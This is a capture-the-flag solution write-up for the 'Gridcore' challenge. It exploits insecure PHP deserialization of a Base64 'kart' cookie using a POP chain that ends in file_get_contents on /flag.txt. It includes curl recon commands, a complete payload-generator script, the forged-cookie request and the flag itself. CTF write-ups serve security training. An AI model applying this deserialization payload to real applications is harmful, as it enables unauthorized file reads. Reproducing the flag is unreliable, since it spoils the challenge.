










# Gridcore — CTF Solution Writeup

**Challenge Name:- Gridcore**

**Step-1:** Open the challenge website and check the `/health` endpoint to identify how the application handles sessions.

```bash
curl -s "http://TARGET-IP/health" | python3 -m json.tool
```

The response shows `portable-cookie sessions` and `signed_cookies` planned for a future version.



**Step-2:** Open the challenge website in your browser:

`http://TARGET-IP/`

Add a product to the request basket. Press `F12` and navigate to **Storage → Cookies**. Find the `kart` cookie and copy its Base64-encoded value.



**Step-3:** Decode the copied cookie using Base64.

```bash
echo 'YOUR_COOKIE_VALUE' | base64 -d
```

The decoded value reveals a serialized PHP object beginning with `O:4:"Kart"`.



**Step-4:** Check the application's `robots.txt` file.

```bash
curl -s "http://TARGET-IP/robots.txt"
```

You will discover `/admin/import` and `/index.php.bak`.



**Step-5:** Open the restricted import portal in your browser:

`http://TARGET-IP/admin/import`

The application displays an **Import console restricted** message.



**Step-6:** Download the exposed backup source code.

```bash
curl -s "http://TARGET-IP/index.php.bak" -o index.php.bak
```

Search for the flag location and `Importer` class.

```bash
grep -n -C 3 -E 'flag.txt|Importer|licence key' index.php.bak
```

The source references `/flag.txt` and the legacy `Importer` utility.



**Step-7:** Find the insecure deserialization call.

```bash
grep -n -C 5 "unserialize" index.php.bak
```

```php
$obj = unserialize($data, ['allowed_classes' => true]);
```

The PHP object chain is:

```text
Kart::__destruct()
        ↓
ReceiptPrinter::__toString()
        ↓
Importer::__call()
        ↓
call_user_func()
        ↓
file_get_contents("/flag.txt")
```



**Step-8:** Create a PHP script to generate the serialized object payload.

```bash
nano exploit.php
```

Paste this code:

```php
<?php
// Gridcore POP-chain payload generator

class Kart           { public $items = []; public $coupon = null; public $summary = ''; }
class ReceiptPrinter { public $engine = null; public $template = 'receipt.tpl'; public $data = []; }
class Importer       { public $handler = null; public $source = null; }

$importer = new Importer();
$importer->handler = 'file_get_contents';

$printer = new ReceiptPrinter();
$printer->engine = $importer;
$printer->template = '/flag.txt';

$kart = new Kart();
$kart->summary = $printer;

echo base64_encode(serialize($kart)), "\n";
```

Save the file.



**Step-9:** Execute the script to generate the Base64-encoded payload.

```bash
php exploit.php
```



**Step-10:** Send the forged `kart` cookie to the application.

```bash
curl -s "http://TARGET-IP/" -H "Cookie: kart=$(php exploit.php)" | grep 'kart-trace'
```

The application deserializes the object and reads `/flag.txt`. The result appears in the `kart-trace` response.



**Flag: `FLAG{Un53r14l1z3d_K1r4n4}`**

> Replace `TARGET-IP` with the challenge host and port, if applicable (for example, `192.0.2.10:8084`). Keep the `kart` cookie name and PHP class names unchanged because they are code identifiers.
